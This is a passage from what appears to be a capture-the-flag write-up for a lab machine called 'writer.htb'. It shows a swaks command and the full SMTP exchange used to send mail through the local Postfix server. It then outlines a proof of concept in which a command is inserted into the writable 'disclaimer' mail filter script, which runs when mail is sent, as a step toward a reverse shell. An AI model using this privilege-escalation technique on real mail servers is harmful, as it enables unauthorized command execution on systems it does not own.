 

Four lines from the bottom: "Recipient address rejected: User unknown in
local recipient table".

I can use any user on the box. I'll pick one that is unlikely to be
checking email, like irc.



    oxdf@parrot$ swaks --to irc@writer.htb --from 0xdf@writer.htb --header "Subject: Test!" --body "ignore this" --server 127.0.0.1
    === Trying 127.0.0.1:25...
    === Connected to 127.0.0.1.
    <-  220 writer.htb ESMTP Postfix (Ubuntu)
     -> EHLO hacky
    <-  250-writer.htb
    <-  250-PIPELINING
    <-  250-SIZE 10240000
    <-  250-VRFY
    <-  250-ETRN
    <-  250-STARTTLS
    <-  250-ENHANCEDSTATUSCODES
    <-  250-8BITMIME
    <-  250-DSN
    <-  250-SMTPUTF8
    <-  250 CHUNKING
     -> MAIL FROM:<0xdf@writer.htb>
    <-  250 2.1.0 Ok
     -> RCPT TO:<irc@writer.htb>
    <-  250 2.1.5 Ok
     -> DATA
    <-  354 End data with <CR><LF>.<CR><LF>
     -> Date: Thu, 02 Dec 2021 09:18:25 -0500
     -> To: irc@writer.htb
     -> From: 0xdf@writer.htb
     -> Subject: Test!
     -> Message-Id: <20211202091825.195665@hacky>
     -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
     -> 
     -> ignore this
     -> 
     -> 
     -> .
    <-  250 2.0.0 Ok: queued as 98F867ED
     -> QUIT
    <-  221 2.0.0 Bye
    === Connection closed with remote host.



#### POC

I'm a bit skeptical about getting a reverse shell working from within
Postfix, so I'll start really small, by adding `touch /dev/shm/0xdf` to
the top of the `disclaimer` script. It's also important to note that
every minute `disclaimer` is set back to it's original state, so it's
important to write and then send the email immediately.
